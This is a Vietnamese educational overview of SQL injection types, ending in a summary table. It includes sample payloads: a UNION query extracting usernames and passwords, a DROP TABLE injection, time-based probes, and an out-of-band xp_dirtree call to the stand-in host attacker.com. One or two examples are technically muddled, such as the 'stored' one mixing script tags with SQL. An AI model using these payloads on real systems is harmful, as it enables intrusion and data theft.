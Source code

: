 
SQL Injection (SQLi) là một trong những lỗ hổng bảo mật phổ biến và nguy hiểm nhất, cho phép kẻ tấn công can thiệp vào các truy vấn SQL được thực thi bởi ứng dụng. Có nhiều loại SQL Injection, được phân loại theo cách thức khai thác và mục tiêu tấn công.

Dưới đây là **các loại SQL Injection chính**:

---

### 1. **In-band SQL Injection (SQLi trực tiếp)**

Đây là dạng phổ biến và dễ khai thác nhất. Kẻ tấn công sử dụng cùng một kênh giao tiếp để gửi payload và nhận kết quả.

#### a. **Error-based SQLi**

- Dựa vào thông báo lỗi do hệ quản trị cơ sở dữ liệu trả về để thu thập thông tin.
- Ví dụ payload:
`' OR 1=1 ORDER BY 100--` 
    → Nếu bảng có ít hơn 100 cột, lỗi sẽ tiết lộ số lượng cột thật.


#### b. **Union-based SQLi**

- Dùng từ khóa `UNION` để hợp nhất kết quả của truy vấn hợp lệ với truy vấn do kẻ tấn công tạo.
- Ví dụ payload:
    
    `' UNION SELECT username, password FROM users--` 
    

---

### 2. **Inferential SQL Injection (Blind SQLi)**

Không thấy dữ liệu trực tiếp, nhưng kẻ tấn công quan sát **hành vi phản hồi** của ứng dụng để suy đoán.

#### a. **Boolean-based Blind SQLi**

- Dựa vào việc ứng dụng trả về khác nhau (true/false) khi chèn truy vấn đúng/sai.
    
- Ví dụ:

    
    `' AND 1=1--    → hợp lệ   ' AND 1=2--    → không hợp lệ`


#### b. **Time-based Blind SQLi**

- Truy vấn sẽ làm ứng dụng chậm lại nếu điều kiện đúng → từ đó suy đoán thông tin.
    
- Ví dụ:

    `' IF (SUBSTRING(@@version,1,1)='5') WAITFOR DELAY '0:0:5'--` 
    

---

### 3. **Out-of-band SQL Injection**

- Kẻ tấn công sử dụng một **kênh khác** để nhận dữ liệu, ví dụ DNS hoặc HTTP.
    
- Hiệu quả khi in-band hoặc inferential không hoạt động.
    
- Ví dụ: sử dụng `xp_dirtree` trong SQL Server để gửi truy vấn DNS:

    `'; exec master..xp_dirtree '\\attacker.com\share'--` 
    

---

### 4. **Stored SQL Injection (Persistent SQLi)**

- Payload được lưu vào CSDL và thực thi sau này, thường thấy ở phần comment, message,...
    
- Ví dụ:
    
    - Người dùng chèn payload vào ô comment:
        `<script>INSERT INTO logs (text) VALUES (''); DROP TABLE users--')</script>`
        

---

### 5. **Second-order SQL Injection**

- Payload không gây hại khi nhập vào nhưng sẽ được thực thi ở một truy vấn khác trong tương lai.
    
- Ví dụ: chèn `' OR 1=1 --` vào tên người dùng, và truy vấn khác dùng lại biến `username` đó mà không kiểm tra.
    

---

### Tóm tắt bảng phân loại:

|Loại SQLi|Cách hoạt động chính|Mức phổ biến|
|---|---|---|
|In-band (Error, Union)|Phản hồi trực tiếp dữ liệu/lỗi|Phổ biến|
|Blind (Boolean, Time)|Dựa vào hành vi phản hồi|Phổ biến|
|Out-of-band|Dữ liệu rò rỉ qua kênh khác|Hiếm|
|Stored / Persistent|Lưu payload vào CSDL và thực thi sau|Phổ biến|
|Second-order|Payload được kích hoạt gián tiếp|Ít phổ biến|